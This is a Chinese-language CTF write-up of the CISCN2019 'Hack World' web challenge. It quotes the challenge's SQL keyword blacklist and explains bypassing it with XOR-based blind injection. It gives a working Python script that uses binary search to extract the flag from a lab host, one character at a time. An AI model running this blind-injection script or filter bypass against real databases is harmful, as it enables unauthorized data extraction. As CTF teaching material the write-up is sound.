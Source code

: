 ### [CISCN2019 华北赛区 Day2 Web1]Hack World

> 首先进入题目，看到
> ![在这里插入图片描述](img/2c21bedd3c71911bd6d66e34d1b9a4f1.png)
> 很明显的提示了，flag在flag表的flag字段
> 这个题目我看了下源代码，过滤了很多函数

```
$blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./'); 
```

> 但是并没有过滤substr(),ascii()，这里我们可以使用盲注。
> 而or and这些却被过滤了，参考其他大佬的文章，这里使用异或，虽然从来没有接触过，不过今天接触了一下就记录一下吧
> 手工当然非常麻烦，所以还是上脚本

```
import requests
flag = ''
url="http://868ea552-5ca5-4b23-9a7d-f454af6ad5e1.node3.buuoj.cn/"
for i in range(1,50):            
    lmin = 33                    
    lmax = 127                   
    while lmax-lmin > 1:    
        mid = (lmax + lmin) // 2 
        print("mid: ",mid)

        payload = "0^(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
        '''
        data = {"id":payload} #这一段程序可以用下面一句话总结
        res = requests.post(url,data=data)
        print(payload)
        if "Hello" in res.text:
        '''

        if requests.post(url,data={"id":payload}).text.find("Hello")>1:
            lmin = mid
        else:
            lmax = mid
            print("lmax: ",lmax)
    flag += chr(lmin+1)
print(flag) 
```
